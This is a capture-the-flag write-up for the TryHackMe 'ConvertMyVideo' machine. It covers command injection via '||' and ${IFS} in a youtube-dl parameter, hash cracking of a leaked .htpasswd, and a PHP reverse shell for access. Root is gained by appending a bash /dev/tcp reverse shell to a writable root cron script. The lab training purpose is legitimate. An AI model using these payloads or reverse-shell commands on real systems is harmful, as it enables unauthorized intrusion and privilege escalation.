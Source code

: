 # ConvertMyVideo

![machine=01](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/machine-01.png)


### Recon

Lets kick off our enumeration stage with `nmap`:

![nmap-result-02](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/nmap-02.png)

Here are the results:	

Lets go take a look at this Apache server.


## Apache 

Lets navigate to the site:

![site-03](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/site-03.png)

Lets open Burp, and capture a request for some factitious youtube video ID.
We get following error message from the server:

![burp-04](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/burp-04.png)

Trying to send a legitamte youtube video ID stalls the server for a copule of minutes then 
returns nothing. So while waiting i decided to try directory busting. 


### Directory Busting

I used `ffuf`:

`ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/directory-list-2.
3-medium.txt:FUZZ -u http://10.10.79.56/FUZZ`

With it came some itersting results: 

![ffuf-res-05](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/ffuf-res-05.png)


Visiting this URL prompts us for credetials: 

![pass-prompt-06](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/pass-prompt-06.png)

It looks like a basic authintication scheme.

![burp-pass-07](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/burp-pass-07.png)

Yes is it is.  HTTP Basic authentication is the simplest technique for 
enforcing access controls to web resources because it doesnâ€™t require cookies, session 
identifiers, or login pages; rather, HTTP Basic authentication uses standard fields in the 
HTTP header, obviating the need for handshakes.

This matters because, it means the web server is using `.htaccess` and `.htpasswd` files 
to authinticate users. `.htpasswd` is of special interest to us since it hold user credetials.  
If we can find this file on the server we have our entry point. 


### Command Injection

Lets start playing around with the HTTP headers to try and provoke server errors.
What if instead of going to youtube, we point the server to its self? 

![server-err-08](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/server-err-08.png)


Okay, the backend is using `youtube-dl`. It seems like whatever we pass to the `yt_url` 
parameter in our `POST` request, is passed to `youtube-dl` . 
  
`youtube-dl` is an open source project, you can find [here](https://github.com/ytdl-org/youtube-dl) 

Based on its github, the syntax is as follows: 
`youtube-dl [OPTIONS] URL`

In essense, whatever we supply to the `yt_url` parameter becomes the <URL> part above.
Lets try to break out of the `youtube-dl` command. 

To do that, im thinking of a few things, we can either try to send a cariage return sequance 
(works sometimes, not in this case). 

We can try Openining a subshell with backticks \`\` or $() to give priority to whatever is inside. 
(doesnt work in this case either). 

Or, We could also try to use `||` to execute two commands one after the other. 
This works:

![burp-ls-09](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/burp-ls-09.png)

This is a command injection vulnerability, but we have one major issue, we cant uses spaces.
sending something like `||cat /etc/passwd` will break the execution. 

We have to use an espace sequance. After some experimentations ive found that `${IFS}` works:

![burp-esc-10](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/burp-esc-10.png)

Now we can find the `.htpasswd` file with a simple search: `||find${IPS}-name${IFS}.htpasswd`.
This shows that the file is at `admin/.htpasswd`, lets cat it out: 

![creds-11](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/creds-11.png)


### The Admin Panel

The stored credetials are: `itsmeadmin : $apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/`, 
its an arp1 hash. Can we crack it with `hashcat`? 

`hashcat --help | grep -i arp1`

![hashcat-help-12](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/hashcat-help-12.png)


Lets crack it: 
`hashcat -m 1600 '$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/' /usr/share/wordlists/rockyou.txt`

![pass-13](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/pass-13.png)

The credtials to the admin panel are `itsmeadmin : jessie`  Lets log in: 
	
![admin-panel-14](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/admin-panel-14.png)

If we take a look at the source code for the page: 

![admin-source-15](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/admin-source-15.png)

It looks for a "c" parameter in the URL, we can use our previous command injection to try
and find the `index.php` file that runs in the backend for this page:

![index-pos-16](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/index-pos-16.png)

Lets cat it out: 

![index-17](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/index-17.png)

The backend checks if any argument was given to the "c" parameter in the URL.
If so, it execute the `system()` function to run whatever was given to it on the OS. 
 
This is another command injection vulnerability: 

![pwned-18](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/pwned-18.png)

Lets send a reverse shell.


### Gaining Access

I like using [pentestmonkey's PHP reverse shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell). 

Change the port and ip to your situation: 

![pentest-19](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/pentest-19.png)

Start a python server `python3 -m http.server 8888`

And download the file to the target: 

![upload-20](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/upload-20.png)

Start the listener with `nc -lnvp 4242`

Navigate to the file location: 

![navigate-21](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/navigate-21.png)

It stalls, thats a great sign, lets check the listener: 

![shell-22](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/shell-22.png)

Lets move to privilege escalation!


## Privilege Escalation

After looking around a bit, ive found nothing meaningful to exploit. 
Lets fire off `pspy64`:

![priv-esc-23](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/priv-esc-23.png)

We have UID 0 running a script from our user's home directory, Lets check the permissions: 

![perms-24](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/perms-24.png)

We can write to the file, Lets append a reverse shell to it:
`echo '/bin/bash -l > /dev/tcp/10.18.22.182/4242 0<&1 2>&1' >> clean.sh`

A few seconds after setting up the listener we get a connection:

![root-25](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/root-25.png) 
